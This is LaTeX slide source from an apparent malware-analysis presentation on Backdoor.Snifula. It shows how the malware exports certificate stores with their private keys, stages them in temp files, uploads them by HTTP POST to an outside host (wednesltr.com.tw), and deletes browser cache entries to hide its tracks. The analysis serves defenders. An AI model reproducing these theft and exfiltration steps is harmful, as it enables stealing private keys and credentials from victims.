 \begin{frame}[t,fragile]{Backdoor.Snifula Interesting Code - cert stealing}

        The certificates of the certificate stores are exported, including their {\bf private} key. This is done in the function export\_certificates:
        
\begin{lstlisting}[basicstyle={\tiny}]
PFXExportCertStoreEx(HCERTSTORE, &pPFX , L"<HARDCODED_PASSWORD>" , 0 , EXPORT_PRIV_KEYS)

PFXExportCertStoreEx std. Win32 code:
\end{lstlisting}

\url{http://msdn.microsoft.com/en-us/library/windows/desktop/aa387313(v=vs.85).aspx} $\rightarrow$ \url{https://bit.ly/PFXExport}


      The certificate files are archived and compressed into a temporary file of the format [16 hex characters].tmp, they are written at:
      

       \begin{lstlisting}[basicstyle={\tiny}]
C:\Documents and Settings\<USER NAME>\Local Settings\Temp
       \end{lstlisting}
\end{frame}


\begin{frame}[t,fragile]{Backdoor.Snifula Interesting Code - upload \& housekeeping}
      Another thread collects and uploads these files periodically:

      \begin{lstlisting}[basicstyle={\tiny}]
create_thread_collect_upload_files ()

POST http://wednesltr.com.tw/uda
Content-Type: multipart/form-data; boundary=-----------------------1d7248c1d7248c1d7248c 
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:11.0) Gecko/20100101 Firefox/11.0 
Host: wednesltr.com.tw 
Content-Length: 246335 
Connection: keep-alive 
Multipart form 
Form data: upload_file: 
PK...........@.J.$(...........AuthRoot.pfxUT 
...A.O.A.O.A.O.7...0.......0.....?*.H.. 
.............0....0.....?*.H.. 
........0.......0.....?*.H.. 
[...]
   \end{lstlisting}

Do some house keeping and remove any URLs form the browser history:

\begin{lstlisting}[basicstyle={\tiny}]
DeleteUrlCacheEntry (the *browser API* is used for communicating)
\end{lstlisting}
\end{frame}


